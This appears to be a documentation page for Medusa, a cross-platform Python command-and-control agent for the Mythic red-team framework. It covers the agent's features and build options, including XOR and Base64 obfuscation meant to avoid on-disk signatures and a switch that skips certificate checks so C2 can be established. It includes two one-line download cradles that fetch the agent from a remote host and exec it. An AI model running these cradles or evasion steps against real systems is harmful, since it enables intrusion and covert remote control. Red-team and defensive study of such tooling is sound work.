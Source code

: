 +++
title = "Medusa"
chapter = false
weight = 5
+++

![logo](/agents/medusa/medusa.svg?width=200px)
## Summary

Medusa is a cross-platform Python agent compatible with Python 2.7 and 3.8.

### Highlighted Agent Features

Python is an incredibly popular programming language and is often installed by default on many operating systems. Python 2.7, for example, is currently available on the latest macOS installs (though expected to be discontinued).
Default libraries, such as `Cocoa` and `ctypes`, allow access to Objective-C APIs and functionality through Windows DLLs.

The Medusa agent itself has several key features including:
- Support for dynamic loading/unloading of functionality to limit exposure of agent capabilities on-disk. 
- A SOCKS5 proxy compatible across Python 2.7 and 3.8, and across macOS, Windows and Linux.
- Encrypted comms.
- `Eval()` of Python code to dynamically extend functionality.

With the ability to execute arbitrary script on the command-line, a rudementary download cradle can be used, such as the below (notably, not proxy-aware):
```
python3 -c "import urllib.request; exec(urllib.request.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

Or for Python 2.7:
```
python -c "import urllib2;exec(urllib2.urlopen('https://[REMOTE_HOST]/medusa.py').read())" &
```

### Build Options

This section provides details of what each Medusa-specific build option provides

#### Python Version

Pretty self-explanatory, select which version of Python the Medusa agent should be created for. See the Development section for details of how this works under the hood.

#### Output Format

Mythic can provide the final agent code as a Python script, or as a Base64-encoded blob. Note that this is the last stage of the process effectively. So any XOR obfuscation, crypto library selection or Python version selection will take place before this.

#### Cryptography library

Medusa agents can be built using either a manual crypto implementation or using the non-default `cryptography` library. Given, the manual implementation isn't going to be as quick or efficient as the main Python library (not to mention the extra code required), `cryptography` use might be the way to go. Though do bear in mind, it is not a default library and appears to only be installed on macOS by default.

{{% notice info %}}
 Either option here won't affect the agents ability to use encrypted comms, it is purely to specify how the encrypted comms are achieved.
{{% /notice %}}

#### XOR and Base64-encode

Finally, the plaintext Medusa script can be encrypted via XOR with a randomly-generated key, before being Base64 encoded. This blob is then wrapped with an unpacker and put in a `exec()` function to ultimately run the Medusa agent. This is designed to make the agent less signaturable when on-disk. See the OPSEC section for more details.

#### Verify HTTPS Certificate

By default, the web request libraries used in Medusa will fail when handling a self-signed certificate for HTTPS. This function introduces code to skip cert verification, so C2 can be established.


### Important Notes
Each job is executed in a new thread. Long-running jobs can be viewed with the `jobs` command and, where a 'stop' functionality has been implemented, they can be killed with `jobkill`.

## Authors
@ajpc500


